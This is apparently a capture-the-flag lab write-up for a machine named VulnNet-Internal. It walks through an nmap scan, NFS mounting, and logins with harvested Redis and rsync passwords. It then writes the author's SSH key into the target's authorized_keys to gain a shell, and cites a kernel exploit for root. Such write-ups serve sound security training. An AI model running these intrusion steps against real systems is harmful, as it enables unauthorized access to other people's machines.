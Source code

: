 ![image](https://user-images.githubusercontent.com/68326057/117233034-fd40ff00-ae3f-11eb-8173-04658ae718fd.png)

# NMAP

```bash
PORT      STATE    SERVICE     REASON      VERSION

22/tcp    open     ssh         syn-ack     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:27:8f:48:ae:2f:f8:89:bb:89:13:e3:9a:fd:63:40 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDagA3GVO7hKpJpO1Vr6+z3Y9xjoeihZFWXSrBG2MImbpPH6jk+1KyJwQpGmhMEGhGADM1LbmYf3goHku11Ttb0gbXaCt+mw1Ea+K0H00jA0ce2gBqev+PwZz0ysxCLUbYXCSv5Dd1XSa67ITSg7A6h+aRfkEVN2zrbM5xBQiQv6aBgyaAvEHqQ73nZbPdtwoIGkm7VL9DATomofcEykaXo3tmjF2vRTN614H0PpfZBteRpHoJI4uzjwXeGVOU/VZcl7EMBd/MRHdspvULJXiI476ID/ZoQLT2zQf5Q2vqI3ulMj5CB29ryxq58TVGSz/sFv1ZBPbfOl9OvuBM5BTBV
|   256 f4:fe:0b:e2:5c:88:b5:63:13:85:50:dd:d5:86:ab:bd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNM0XfxK0hrF7d4C5DCyQGK3ml9U0y3Nhcvm6N9R+qv2iKW21CNEFjYf+ZEEi7lInOU9uP2A0HZG35kEVmuideE=
|   256 82:ea:48:85:f0:2a:23:7e:0e:a9:d9:14:0a:60:2f:ad (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJPRO3XCBfxEo0XhViW8m/V+IlTWehTvWOyMDOWNJj+i

111/tcp   open     rpcbind     syn-ack     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      49358/udp6  mountd
|   100005  1,2,3      49863/tcp6  mountd
|   100005  1,2,3      55535/tcp   mountd
|   100005  1,2,3      58330/udp   mountd
|   100021  1,3,4      42699/tcp6  nlockmgr
|   100021  1,3,4      45099/tcp   nlockmgr
|   100021  1,3,4      45323/udp   nlockmgr
|   100021  1,3,4      56994/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp   open     netbios-ssn syn-ack     Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

445/tcp   open     netbios-ssn syn-ack     Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)

873/tcp   open     rsync       syn-ack     (protocol version 31)

2049/tcp  open     nfs_acl     syn-ack     3 (RPC #100227)

6379/tcp  open     redis       Redis key-value store 

9090/tcp  filtered zeus-admin  no-response

57797/tcp open     mountd      syn-ack     1-3 (RPC #100005)

Service Info: Host: VULNNET-INTERNAL; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -6h09m58s, deviation: 1h09m16s, median: -5h29m59s
| nbstat: NetBIOS name: VULNNET-INTERNA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   VULNNET-INTERNA<00>  Flags: <unique><active>
|   VULNNET-INTERNA<03>  Flags: <unique><active>
|   VULNNET-INTERNA<20>  Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 46849/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 54877/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 5770/udp): CLEAN (Failed to receive data)
|   Check 4 (port 53803/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: vulnnet-internal
|   NetBIOS computer name: VULNNET-INTERNAL\x00
|   Domain name: \x00
|   FQDN: vulnnet-internal
|_  System time: 2021-05-06T04:27:49+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-06T02:27:49
|_  start_date: N/A
```

# port 111

```bash
showmount -e IP
```

![image](https://user-images.githubusercontent.com/68326057/117233586-08485f00-ae41-11eb-867e-6f3ae4c27f13.png)

```bash
sudo mount -o rw 10.10.236.231:/opt/conf /tmp/mountme
```

![image](https://user-images.githubusercontent.com/68326057/117234112-fc10d180-ae41-11eb-8b02-113f89963274.png)


```bash
In radis.conf

slave-serve-stale-data yes                                                                                                             

Master-Auth
requirepass "B65Hx562F@ggAZ@F"                                                                                                         
                                               
```

# SMB

```bash
smbclient -L \\\\IP
```

![image](https://user-images.githubusercontent.com/68326057/117235323-219eda80-ae44-11eb-8332-d6c524928251.png)

```bash
smbclient \\\\IP\shares
```

![image](https://user-images.githubusercontent.com/68326057/117235388-3ed3a900-ae44-11eb-98c1-000c1b86620b.png)

![image](https://user-images.githubusercontent.com/68326057/117235474-675ba300-ae44-11eb-96d5-8329631a7801.png)


![image](https://user-images.githubusercontent.com/68326057/117235467-6165c200-ae44-11eb-8551-01bb1db0c08c.png)

In service.txt there is a flag.

In data.txt

```bash
Purge regularly data that is not needed anymore
```

In business-req.txt
```bash
We just wanted to remind you that we_re waiting for the DOCUMENT you agreed to send us so we can complete the TRANSACTION we discussed.
If you have any questions, please text or phone us.
```

# REDIS

## Downloads it -->
```bash
sudo apt install redis-tools
```

```bash
redis-cli -h 10.10.236.231 --pass B65Hx562F@ggAZ@F
```

![image](https://user-images.githubusercontent.com/68326057/117236376-2d8b9c00-ae46-11eb-9640-2ed762ae34d4.png)


--> https://book.hacktricks.xyz/pentesting/6379-pentesting-redis


![image](https://user-images.githubusercontent.com/68326057/117236538-7fccbd00-ae46-11eb-9b65-8e9f8c6d2357.png)


![image](https://user-images.githubusercontent.com/68326057/117236693-d9cd8280-ae46-11eb-8147-6d2e2e09ae82.png)

# Trying to dump Database

![image](https://user-images.githubusercontent.com/68326057/117236771-084b5d80-ae47-11eb-8e1d-6ca8a869b1e3.png)

![image](https://user-images.githubusercontent.com/68326057/117236917-61b38c80-ae47-11eb-86c1-2fcf6c2aa795.png)


```bash
 get "internal flag"  -> get flag
```

![image](https://user-images.githubusercontent.com/68326057/117237713-20bc7780-ae49-11eb-9b1c-508a3f450302.png)



![image](https://user-images.githubusercontent.com/68326057/117245898-42bdf600-ae59-11eb-9bb4-7a3dffd6d6bb.png)


![image](https://user-images.githubusercontent.com/68326057/117245923-4fdae500-ae59-11eb-9930-0ca676467692.png)


```bash
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
```

# rsync

```bash
rsync -av rsync://rsync-connect@10.10.139.81/files/ . to copy all files
```

--> https://book.hacktricks.xyz/pentesting/873-pentesting-rsync


# user.txt

```bash
cd sys-internal
cat user.txt
ls -Ra (to recursively list)

```

![image](https://user-images.githubusercontent.com/68326057/117246522-6cc3e800-ae5a-11eb-887d-5ea486d115f9.png)

# Firefox(Rabbit hole)

![image](https://user-images.githubusercontent.com/68326057/117249771-c7137780-ae5f-11eb-9049-62e31501660c.png)

![image](https://user-images.githubusercontent.com/68326057/117249805-d4306680-ae5f-11eb-91f1-49206a356d49.png)


```bash
BASH ($) rsync -av /home/kalikali/.ssh/id_rsa.pub   rsync://rsync-connect@10.10.139.81/files/sys-internal/.ssh/authorized_keys                                                                                                               
Password:                                                                                                                              
sending incremental file list                                                                                                          
id_rsa.pub

sent 683 bytes  received 35 bytes  53.19 bytes/sec
total size is 567  speedup is 0.79
```

```bash
ssh -i ~/.ssh/id_rsa.pub sys-internal@10.10.139.81
```

![image](https://user-images.githubusercontent.com/68326057/117257649-c1bb2a80-ae69-11eb-968b-1cc38cc9d4d7.png)


# root

(+) exploit --> CVE-2021-3493-kernel

![image](https://user-images.githubusercontent.com/68326057/117257614-b5cf6880-ae69-11eb-9e4b-54e5fa8f0d56.png)

